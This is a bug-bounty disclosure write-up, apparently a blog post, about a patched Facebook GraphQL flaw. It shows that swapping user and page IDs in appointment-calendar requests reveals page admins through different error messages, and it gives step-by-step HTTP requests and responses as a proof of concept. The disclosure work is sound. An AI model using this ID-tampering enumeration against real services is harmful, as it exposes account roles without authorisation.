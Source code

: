 ```yaml
---
title:  "Determine Any Page Admins"
date:   2019-11-26 12:20:15 +0800
categories: Hacking
classes:
  - landing
header:
  teaser: /assets/img/Facebook.jpg
---
```



Facebook pages can create Appointments. It is possible to determine those with admin page roles by attempting to replace User Id and Page.

## POC 

Victim: USER_ID_A , PAGE_ID_A

Attacker : USER_ID_B , PAGE_ID_B.

USER_ID_C ( User has no role )

## Reprosteps

Request 

```
POST /api/graphql/ HTTP/1.1
Host: www.facebook.com

&variables={"input":{"client_mutation_id":"1","actor_id":"USER_ID_B","action"......"page_id":"PAGE_ID_B",".....":"appointment_calendar"}


```

Response

```
{
   "data": {
      "native_booking_request_status_update": {
         "request": {
            "id": "PAGE_ID_B",
            "page_contact": null
         },
         "show_contact_creation": false
      }
   },
   "extensions": {
      "is_final": true,
      "dtsg_token": null
   }
}
```
Replace PAGE_ID_B -> PAGE_ID_A 

Request 

```
POST /api/graphql/ HTTP/1.1
Host: www.facebook.com

&variables={"input":{"client_mutation_id":"1","actor_id":"USER_ID_B","action"......"page_id":"PAGE_ID_A",".....":"appointment_calendar"}


```
Response

 ```
 severity": "CRITICAL",
          "code": 1357010,
          "api_error_code": -1,
          "summary": "Oops!",
          "description": "Something's gone wrong. We're working to get it fixed as soon as we can.",
          "is_silent": false,
          "is_transient": false,
          "requires_reauth": false,
 ```

Ok Now repeat step 2 replace  USER_ID_B -> USER_ID_A

Request 

```
POST /api/graphql/ HTTP/1.1
Host: www.facebook.com

&variables={"input":{"client_mutation_id":"1","actor_id":"USER_ID_A","action"......"page_id":"PAGE_ID_A",".....":"appointment_calendar"}


```

Response

```
"severity": "CRITICAL",
         "code": 1373034,
         "api_error_code": 200,
         "summary": "Insufficient Permission",
         "description": "You do not have the necessary permission for the specified Page to perform the requested action.",
         "is_silent": false,
         "is_transient": false,
         "requires_reauth": false,
```

See message. 

Replace  USER_ID_A -> USER_ID_C (User role admin -> user has no role)

Request

```
POST /api/graphql/ HTTP/1.1
Host: www.facebook.com

&variables={"input":{"client_mutation_id":"1","actor_id":"USER_ID_C","action"......"page_id":"PAGE_ID_A",".....":"appointment_calendar"}

```

Response

 ```
 severity": "CRITICAL",
          "code": 1357010,
          "api_error_code": -1,
          "summary": "Oops!",
          "description": "Something's gone wrong. We're working to get it fixed as soon as we can.",
          "is_silent": false,
          "is_transient": false,
          "requires_reauth": false,
 ```

## Putting everything together

User has no role  : 

```
"summary": "Oops!",
"description": "Something's gone wrong. We're working to get it fixed as soon as we can.",
```

User role admin : 

```
"summary": "Insufficient Permission",
"description": "You do not have the necessary permission for the specified Page to perform the requested action.",
```

#Timeline

Nov 08, 2019 – Report Sent

Nov 09, 2019 – Confirmation of submission by Facebook

Nov 09, 2019 – Further investigation by Facebook

Nov 14, 2019 – Fixed by Facebook

Nov 14, 2019 – $XXXX Bounty Awarded by Facebook 




